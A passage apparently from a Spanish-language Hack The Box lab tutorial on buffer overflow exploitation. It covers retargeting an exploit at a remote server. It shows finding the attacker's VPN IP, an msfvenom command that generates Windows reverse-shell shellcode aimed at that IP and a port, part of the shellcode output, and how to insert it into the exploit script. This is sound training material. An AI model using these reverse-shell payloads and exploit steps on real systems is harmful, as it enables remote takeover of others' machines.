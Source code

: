 Una vez que hemos creado y probado nuestro exploit, ahora podemos intentar ejecutarlo en un servidor remoto real. Podemos usar el mismo exploit en el objetivo real, y solo necesitamos cambiar el `IP`y `port`en nuestro script para apuntarlo al nuevo objetivo y cambiar el código de shell que usamos dentro del script a algo que nos envíe un shell inverso.
## Shellcode inverso

Primero, necesitamos encontrar la IP de nuestra máquina, a la que debería poder acceder el servidor remoto (en la misma subred de la red):

```shell-session
lilscott6x9@htb[/htb]$ ip -4 a

1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    ...SNIP...
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    ...SNIP...
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    ...SNIP...
5: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 100
    inet 10.10.15.10/23 brd 10.10.15.255 scope global tun0
```

La IP que usaremos es `tun0`la IP de, ya que nuestra VM está en la misma `10.10.`subred.

Nota: Debe estar conectado a la VPN para poder interactuar con el servidor remoto, así que descargue la clave VPN en caso de que desee ejecutar el exploit desde su propia máquina. La instancia de PwnBox ya está conectada a la VPN, por lo que debería poder conectarse al servidor remoto.

A continuación, generaremos el código de shell que nos enviará un shell inverso, que podemos obtener con la `windows/shell_reverse_tcp`carga útil en `msfvenom`, de la siguiente manera:

```shell-session
lilscott6x9@htb[/htb]$ msfvenom -p 'windows/shell_reverse_tcp' LHOST=10.10.15.10 LPORT=1234 -f 'python'

...SNIP...
buf =  b""
buf += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
...SNIP...
```

Podemos modificar nuestro exploit copiando la salida y usándola en la `exploit()`función de la `buf`variable.

